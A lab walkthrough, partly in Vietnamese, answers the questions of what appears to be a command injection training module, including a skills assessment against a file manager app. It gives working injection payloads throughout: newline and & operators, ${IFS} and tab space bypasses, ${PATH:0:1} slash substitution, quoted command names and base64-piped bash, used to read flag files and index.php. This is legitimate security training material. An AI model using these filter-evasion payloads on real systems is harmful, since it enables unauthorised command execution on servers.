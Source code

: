 # Detection

#### Questions
+ 0  Try adding any of the injection operators after the ip in IP field. What did the error message say (in English)?

![](images/1.png)

# Injecting Commands
#### Questions
+ 1  Review the HTML source code of the page to find where the front-end input validation is happening. On which line number is it?
![](images/2.png)

# Other Injection Operators

#### Questions
+ 1  Try using the remaining three injection operators (new-line, &, |), and see how each works and how the output differs. Which of them only shows the output of the injected command?

![](images/3.png)

# Identifying Filters
#### Questions
+ 1  Try all other injection operators to see if any of them is not blacklisted. Which of (new-line, &, |) is not blacklisted by the web application?

![](images/4.png)

# Bypassing Space Filters

#### Questions
+ 1  Use what you learned in this section to execute the command 'ls -la'. What is the size of the 'index.php' file?

![](images/5.png)
# Bypassing Other Blacklisted Characters

#### Questions
+ 2  Use what you learned in this section to find name of the user in the '/home' folder. What user did you find

Tôi sẽ thử với 1 dấu xuống dòng và nó hoạt động:

```
ip=127.0.0.1%0a
```

Tiếp theo để câu lệnh `ls -la` hoạt động, ta cần thêm một dấu cách để bypass, tôi sẽ dùng biến `${IFS}`

```
ip=127.0.0.1%0als${IFS}-la
```


Để liệt kê thư mục trong `/home` ta phải thêm dấu `/`. Lấy kí tự đầu của biến `${PWD:0:1}`

Payload hoàn chỉnh sẽ là: `\n ls -la /home`

```
ip=127.0.0.1%0als${IFS}-la${IFS}${PATH:0:1}home
```

![](images/6.png)

# Bypassing Blacklisted Commands

#### Questions
+ 2  Use what you learned in this section find the content of flag.txt in the home folder of the user you previously found.

```zsh
cat /home/1nj3c70r/flag.txt
```

```
ip=127.0.0.1%0ac'a't${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```

![](images/7.png)

# Advanced Command Obfuscation

#### Questions
+ 2  Find the output of the following command using one of the techniques you learned in this section: find /usr/share/ | grep root | grep mysql | tail -n 1

Mã hóa câu lệnh bằng base64

```zsh
echo 'find /usr/share/ | grep root | grep mysql | tail -n 1' | base64
ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDEK
```

Đọc mã nguồn của `index.php`

```
ip=127.0.0.1%0ac'a't${IFS}index.php
```

![](images/8.png)

Chúng ta thấy rằng `bash` và `base64` không nằm trong blacklist.

Thiết kế câu lệnh:

```zsh
bash<<<$(base64 -d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDEK)
```

Thêm một bước nữa là bypass `space`.

```
bash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDEK)
```

Vậy payload hoàn chỉnh sẽ là

```
ip=127.0.0.1%0abash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDEK)
```

![](images/9.png)

# Skills Assessment

You are contracted to perform a penetration test for a company, and through your pentest, you stumble upon an interesting file manager web application. As file managers tend to execute system commands, you are interested in testing for command injection vulnerabilities.

Use the various techniques presented in this module to detect a command injection vulnerability and then exploit it, evading any filters in place.

#### Questions
 Authenticate to with user "guest" and password "guest"

+ 10  What is the content of '/flag.txt'?

Đăng nhập vào và đây là giao diện chính

![](images/10.png)

Chúng ta có thể xem tài liệu và thu thập request

![](images/11.png)

Đây là preview file

![](images/12.png)

Có một chức năng rất đáng chú ý đó là `move file`

![](images/13.png)

Như vậy chúng ta đang ở `/var/www/html/files`, có một thư mục `tmp` trong chính thư mục này.

Nếu tôi cố gắng `move file` quay lại thư mục ban đầu, tôi sẽ nhận được thông báo malicious request dennied.

![](images/14.png)

Vậy câu lệnh mà server sử dụng có thể là:

```zsh
move /var/www/html/files/$from $to
```

Như vậy tham biến `to` sẽ là điểm chúng ta cần khai thác.

Sau khi đã di chuyển file, nếu câu lệnh vẫn đúng thì ta sẽ thấy dòng thông báo
![](images/15.png)

Nếu chúng ta bị bộ lọc phát hiện, chúng ta sẽ nhận được thông báo:

```
GET /index.php?from=51459716.txt&finish=1&move=1&to=tmp;
```

![](images/16.png)

Do đó hãy thử lần lượt các kí tự.

Khi thử `%26` tức là kí tự `&`, chúng ta nhận biết được rằng kí tự này có thể bypass được bộ lọc.

![](images/17.png)

Tiếp theo sẽ là câu lệnh nào mà chúng ta có thể dùng.

Với `to=tmp%26i'd'` tôi có thể bypass được câu lệnh nằm trong blacklist

![](images/18.png)

Như vậy hãy thử liệt kê file bằng cách sử dụng kí tự tab `%09` để thay cho `space`

![](images/19.png)

Chúng ta có thể sử dụng `${PATH:0:1}` để thay cho dấu `/`

![](images/20.png)

Từ những khám phá, payload hoàn chỉnh sẽ là

```
to=tmp%26c'a't%09${PATH:0:1}flag.txt
```

Tương đương sẽ là:

```zsh
<previous command>&cat /flag.txt
```

![](images/21.png)